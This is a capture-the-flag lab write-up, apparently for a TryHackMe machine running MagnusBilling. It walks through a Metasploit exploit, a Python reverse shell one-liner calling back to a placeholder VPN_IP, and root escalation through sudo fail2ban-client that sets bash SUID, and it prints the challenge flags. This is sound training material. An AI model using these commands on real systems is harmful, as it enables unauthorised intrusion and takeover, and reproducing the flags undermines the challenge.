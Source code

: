 ```yaml
---
sticker: emoji//1f4b3
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121156.png)

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121421.png)

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121504.png)


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121513.png)


Based on that, let's search a module on `metasploit`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121650.png)

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121837.png)

Now, set options and run the exploit:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612121935.png)


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612122241.png)

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612122406.png)

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612122904.png)

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612123256.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612123306.png)

That would work but we don't have write permissions over the `iptables.conf` file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612123407.png)

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612123516.png)

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612123848.png)

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250612124033.png)

